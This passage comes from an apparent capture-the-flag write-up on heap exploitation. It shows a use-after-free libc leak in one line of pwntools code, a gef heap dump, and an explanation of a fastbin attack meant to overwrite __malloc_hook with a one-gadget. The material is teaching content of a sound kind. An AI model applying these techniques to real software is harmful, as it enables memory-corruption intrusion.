 Since we have a UAF, we can get the leak as follows:
```python
leak = u64(show(0).split('\n')[1].split(' : ')[1].ljust(8, '\x00'))
```

#### Step 2: **Fast bin attack**

Now that we have a leak, we need to get a chunk on top of `__malloc_hook` so we can overwrite it with a one gadget. We will do this by doing what is known as a fastbin attack.

When fastbin sized chunks are freed, they get stored in a singly stored linked list known as a fastbin. The way each free chunk keeps track of itself in the list is by setting aside the first 8 bytes of the chunk (in a 64-bit system) for what is called the `fd` pointer, which is essentially a pointer to the next free chunk in this linked list. This is demonstrated below using chunks B and C from our exploit. Note that chunk B was freed first, followed by chunk C:
```c
gef➤  x/300gx 0x00005564e50e9000
0x5564e50e9000: 0x0000000000000000      0x0000000000000031 <- chunk A topic (free)
0x5564e50e9010: 0x0000000000000000      0x0000000000000000 <- chunk A fd is empty as it is the first free chunk in the 0x28 fastbin
0x5564e50e9020: 0x0000000000000000      0x00005564e50e9040 <- pointer to chunk A body
0x5564e50e9030: 0x0000000000000082      0x0000000000000091 <- chunk A body (free) in the unsorted bin
0x5564e50e9040: 0x00007f998eadfb78      0x00007f998eadfb78 <- libc pointers
0x5564e50e9050: 0x4141414141414141      0x4141414141414141
...
0x5564e50e90c0: 0x0000000000000090      0x0000000000000030 <- chunk B topic (free)
0x5564e50e90d0: 0x00005564e50e9000      0x0000000000000000 <- chunk B fd points to chunk A topic in the 0x28 fastbin
0x5564e50e90e0: 0x0000000000000000      0x00005564e50e9100 <- pointer to chunk B body
0x5564e50e90f0: 0x0000000000000068      0x0000000000000071 <- chunk B body
0x5564e50e9100: 0x0000000000000000      0x4242424242424242 <- chunk B body fd is empty as it is the first free chunk in the 0x68 fastbin
0x5564e50e9110: 0x4242424242424242      0x4242424242424242
...
0x5564e50e9160: 0x0000424242424242      0x0000000000000031 <- chunk C topic (free)
0x5564e50e9170: 0x00005564e50e90c0      0x0000000000000000 <- chunk C fd points to chunk B topic in the 0x28 fastbin
0x5564e50e9180: 0x0000000000000000      0x00005564e50e91a0 <- pointer to chunk C body
0x5564e50e9190: 0x0000000000000068      0x0000000000000071 <- chunk C body
0x5564e50e91a0: 0x00005564e50e90f0      0x4343434343434343 <- chunk C body fd points to chunk B body in the 0x68 fastbin
0x5564e50e91b0: 0x4343434343434343      0x4343434343434343
...
0x5564e50e9200: 0x0000434343434343      0x0000000000000031 <- chunk D topic (to prevent coalescing with the top chunk)
0x5564e50e9210: 0x4444444444444444      0x0000000000000000
```

Now, what happens if we allocate space for a new message where the body size of the message is 0x68 bytes?

1. We will get chunk C given back to us from the 0x68 fastbin
2. The pointer in the `fd` of chunk C will be placed at the front of that fastbin
3. A subsequent malloc will then give us a chunk wherever that `fd` pointer was pointing to
